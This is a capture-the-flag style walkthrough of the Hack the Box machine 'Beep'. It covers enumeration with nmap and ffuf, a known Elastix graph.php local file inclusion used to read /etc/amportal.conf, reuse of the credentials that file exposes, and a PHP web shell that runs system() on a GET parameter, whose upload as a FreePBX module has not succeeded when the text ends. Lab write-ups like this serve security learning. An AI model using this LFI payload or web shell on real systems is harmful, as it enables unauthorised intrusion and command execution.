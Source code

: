 # Hack the Box - Beep

## Step 1 - Accessing the site
After spawning the box, I immediately tried to access the site. The connection was immediately upgraed to https, but secure connection failed due to `SSL_ERROR_UNSUPPORTED_VERSION` -error.  
![SSL error](img/01_beep.png)

I wonder if this is a designed step in the machine, but Firefox has disabled [TLS 1.0 and TLS1.1](https://hacks.mozilla.org/2020/02/its-the-boot-for-tls-1-0-and-tls-1-1/).

I launched BurpSuite and used its chromium based browser which works just fine:  
![Burp works!](img/02_beep.png)

I haven't heard of "Elastix" before, and decided to do some research, but that turned out to be harder than expected. Trying to access Elastix's site, I was greeted by the following:  
![Elastix error](img/03_beep.png)

I wonder if it's some legacy solution? Wikipedia had answers for me:
>Elastix is a unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality. It has a Web interface and includes capabilities such as a call center software with predictive dialing.

Elastix was originally a open source project, but it was acquired by a third-party company which made the project propriatery. Wikipedia says the latest release was in 2016. The copyright footer on the target site is up to 2024, so perhaps we have a newer version?

So I was greeted with a login page and without any idea about the correct credentials, I tried some obvious ones.
- admin:admin
- admin:eLaStIx.2oo7
- admin:mypassword
- admin:password...

None worked, so time for some enumeration.

## Step 2 - Enumerating the Website
First thing I checked were the cookies. Cookie named "elastixSession" was found, perhaps this could be changed to a valid session cookie and gain access to the system that way?  
![Cookies](img/04_beep.png)

I did a nmap scan which found quite a open few ports. However, I have a feeling most of these are false positives.
```Sh
$ nmap -sV -p- 10.129.229.183
Starting Nmap 7.80 ( https://nmap.org ) at 2024-03-19 17:31 EET
Nmap scan report for beep.htb (10.129.229.183)
Host is up (0.043s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp?
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap?
443/tcp   open  ssl/https?
856/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
Service Info: Host: 127.0.0.1
```

Running ffuf found using wfuzz's megabeast.txt and scanning for php, html, js and txt extensions resulted in a handful of sites of which `robots.txt`, `register.php` and `index.php` were accessible without credentials.
```sh
admin                   [Status: 301, Size: 317, Words: 20, Lines: 10]
help                    [Status: 301, Size: 316, Words: 20, Lines: 10]
images                  [Status: 301, Size: 318, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 1785, Words: 103, Lines: 35]
mail                    [Status: 301, Size: 316, Words: 20, Lines: 10]
modules                 [Status: 301, Size: 319, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 317, Words: 20, Lines: 10]
recordings              [Status: 301, Size: 322, Words: 20, Lines: 10]
register.php            [Status: 200, Size: 1785, Words: 103, Lines: 35]
robots.txt              [Status: 200, Size: 28, Words: 3, Lines: 3]
static                  [Status: 301, Size: 318, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 318, Words: 20, Lines: 10]
```

`index.php` is not too interesting (points to the login page), and `robots.txt` was fairly empty. As a refresher, sites use a file called robots.txt to tell search engine crawlers which URLs the crawler can access on the site.
![robots.txt](img/05_beep.png)


The registration page `register.php` showed looked exactly similar as the login page.
![Registration page](img/06_beep.png)

However, as this was the most interesting one of the sites discovered by ffuf, I decided to investigate further using `BurpSuite's` intercept feature.

I sent a request from `register.php`, and for some reason no response is returned. Logging in from `index.php` didn't work with the new account. This told me that the registration failed.
![No response](img/07_beep.png)

## Step 3 - Exploiting the LFI vulnerability
Next off I tried simply searching for "Elastix Vulnerability" and stumbled across [Elastix 2.2.0 - 'graph.php' Local File Inclusion](https://www.exploit-db.com/exploits/37637). I copied the LFI exploit `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action` and sure enough, that worked!
![Local File Inclusion](img/08_beep.png)

I copied contents of the file into file on my local machine and searched for usernames and password. It didn't take long to find a username and a few password options from the file. Trying out these on the login page granted access to "admin" account.  
![Username](img/10_beep.png) ![Password](img/09_beep.png)

admin:jEhdIekWmdjE

elastix:passw0rd ?

Before exploring the dashboard furhter, I wanted to see if these credentials were re-used and tried to ssh into the machine.
```sh
touhottaja@Laptop:~$ ssh admin@10.129.229.183
Unable to negotiate with 10.129.229.183 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
touhottaja@Laptop:~$ ssh -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 admin@10.129.229.183
Unable to negotiate with 10.129.229.183 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
touhottaja@Laptop:~$ ssh -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 -oHostKeyAlgorithms=+ssh-rsa admin@10.129.229.183
admin@10.129.229.183's password: 
Permission denied, please try again.
```

No luck there. I think these machines are slowly starting to ramp up and low hanging fruits are not as common.

## Step 4 - Looking for Foothold

Since I had no luck with credential re-use, I started exploring the Elastix dashboard.
![Dashboard](img/11_beep.png)

I went through the menus one by one and found a handful of useful information:
- Host: bleep
- Machine is based on CentOS-5
- The packages installed on the machines  
![Packages](img/12_beep.png)

I went back to check the endpoints which I found using ffuf. The `/recordings` site greeted me with FreePBX 2.5 login page. The same credentials worked here (admin:jEhdIekWmdjE). This page didn't contain anything interesting, though.  
![FreePBX](img/13_beep.png)
![FreePBX](img/14_beep.png)

`/modules` endpoint revealed a bunch of modules used by FreePBX. Looking closer, the modules were programmed in php. If I could upload my own module, I probably could get a reverse shell.  
![/modules](img/18_beep.png)
![Module php code](img/19_beep.png)

Next I visited `/admin` endpoint which prompted for credentials as well. The same credentials worked. This lead me to FreePBX admin page.  
![/admin](img/15_beep.png)
![FreePBX admin page](img/16_beep.png)

The first menu I checked on this admin page was the Module Admin menu, in which I found a Upload module button. If my theory was correct, I could upload my own php code which would spawn a reverse shell.  
![Module Admin menu](img/20_beep.png)

I created my shell file
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
and tried uploading it to as a module. This didn't work, because FreePBX expects the file to be in tar+gzip (.tgz or .tar.gz) format. No biggie, I can do that easily with:
```sh
$ tar -zcvf shell.tar.gz shell.php
```
That failed due to format error. The filename has to be in format modulename-version.tar.gz.
```sh
$ mv shell.tar.gz shell-0.1.tar.gz
```
The next error was file extraction error. The tar did not extract correctly. At this point it made more sense to read how the FreePBX module was supposed to be built instead of trying to "brute force it".